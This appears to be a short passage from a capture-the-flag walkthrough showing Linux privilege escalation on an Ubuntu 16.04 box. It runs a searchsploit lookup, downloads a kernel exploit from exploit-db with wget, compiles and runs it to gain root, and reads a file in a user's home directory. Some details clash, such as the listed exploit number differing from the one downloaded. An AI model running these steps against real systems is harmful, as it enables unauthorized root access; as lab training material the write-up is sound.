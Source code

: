     www-data@ubuntu:/var/www/html$ uname -a
    Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

    $ searchsploit ubuntu 16.04.46210ff70fb143e19111c6166a185a3d8
    -------------------------------------------------------------------------------------------------------------------- 
     Exploit Title                                                                             |  Path
    --------------------------------------------------------------------------------------------------------------------
    Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                     | linux/local/44298.c

    $ wget https://www.exploit-db.com/download/45010

    www-data@ubuntu:~$ gcc 45010.c -o 45010
    www-data@ubuntu:~$ ./45010

    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)


# Box's secret

    root@ubuntu:~# cat /home/victor/undefeated_victor
    echo  "if you can defeat me then challenge me in front of you";
    /tmp/challenge


